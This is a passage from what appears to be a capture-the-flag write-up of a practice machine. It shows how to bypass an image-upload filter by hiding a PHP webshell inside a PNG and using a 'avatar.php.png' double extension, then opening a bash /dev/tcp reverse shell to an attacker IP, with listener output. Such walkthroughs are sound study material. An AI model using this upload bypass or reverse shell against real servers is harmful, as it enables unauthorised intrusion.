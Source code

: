 The second filter can be bypassed by putting PHP code into the middle of a
valid image.

I’ll create a copy of my image and name it `avatar-mod.png`. Then I’ll open it
with `vim` and add a simple PHP webshell to the middle of the file:

![image-20200419140056407](https://0xdfimages.gitlab.io/img/image-20200419140056407.png)

The file starts with the legit magic bytes for a PNG, but I’d added the
webshell into the middle of the file. This file uploads without issue.

#### Getting Execution

There is still a problem here. I need some way to get the website to treat
this file like PHP (and thus execute it) and not like an image. Typically
that’s done by extension. If the site were blocking `.php` saying that was not
allowed, I would try things like `.php5`, and `.phtml`. But since the error
message is suggesting there’s a whitelist of the three image file extensions,
that seems less likely.

One thing worth trying is putting `.php` in the file name, just not at the
end. This won’t execute on a well configured server, but there are
misconfigurations that might allow it.

I’ll create a copy of just the plain image file and name it `test.php.png`.
When I upload that, it is broken on the main page, and when I view it directly
in `/images/uploads`, it shows the text of the file, not the image:

![image-20200419140552707](https://0xdfimages.gitlab.io/img/image-20200419140552707.png)

I’ll look at why the webserver is treating that file that way in Beyond Root,
but seeing this handled as PHP and not an image is enough for me to move
forward. I’ll rename my image with a PHP webshell in it to `avatar.php.png`
and upload it. When I visit
`http://10.10.10.185/images/uploads/avatar.php.png?cmd=id`, I can see the
execution in the middle of the page:

![image-20200419140725925](https://0xdfimages.gitlab.io/img/image-20200419140725925.png)

### Shell

To get a shell from here, I just need to pass in a reverse shell. Visiting
`http://10.10.10.185/images/uploads/avatar.php.png?cmd=bash -c 'bash -i >%26
/dev/tcp/10.10.14.20/443 0>%261'` works:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.185.
    Ncat: Connection from 10.10.10.185:53650.
    bash: cannot set terminal process group (1140): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/Magic/images/uploads$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    